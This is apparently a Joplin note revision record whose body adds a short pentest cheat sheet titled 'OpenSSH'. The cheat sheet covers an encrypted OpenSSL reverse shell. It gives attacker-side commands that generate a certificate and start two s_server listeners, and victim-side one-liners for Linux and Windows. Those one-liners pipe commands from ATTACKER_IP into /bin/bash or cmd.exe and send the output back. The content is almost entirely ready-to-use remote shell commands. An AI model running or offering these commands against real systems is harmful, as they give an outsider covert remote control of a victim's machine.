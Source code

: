 id: 38b30f32613b421e9df1a759320caa09
parent_id: 
item_type: 1
item_id: 6b802989f53e414e97c1a369c95baae5
item_updated_time: 1642143929382
title_diff: "[{\"diffs\":[[1,\"OpenSSH\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":7}]"
body_diff: "[{\"diffs\":[[1,\"Attacker (Kali)\\\n\\\n> openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes #Generate certificate\\\n> \\\n> openssl s_server -quiet -key key.pem -cert cert.pem -port <l_port> #Here you will be able to introduce the commands\\\n> \\\n> openssl s_server -quiet -key key.pem -cert cert.pem -port <l_port2> #Here yo will be able to get the response\\\n\\\nVictim\\\n\\\n> #Linux\\\n> openssl s\\\\_client -quiet -connect &lt;ATTACKER\\\\_IP&gt;:&lt;PORT1&gt;|/bin/bash|openssl s\\\\_client -quiet -connect &lt;ATTACKER\\\\_IP&gt;:&lt;PORT2&gt;\\\n> \\\n> #Windows\\\n> openssl.exe s\\\\_client -quiet -connect &lt;ATTACKER\\\\_IP&gt;:&lt;PORT1&gt;|cmd.exe|openssl s\\\\_client -quiet -connect &lt;ATTACKER\\\\_IP&gt;:&lt;PORT2&gt;\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":692}]"
metadata_diff: {"new":{"id":"6b802989f53e414e97c1a369c95baae5","parent_id":"b8fe3751a1b24ee7ad3f067e0a5bfdcd","latitude":"1.36730000","longitude":"103.80140000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":0,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-14T07:12:53.616Z
created_time: 2022-01-14T07:12:53.616Z
type_: 13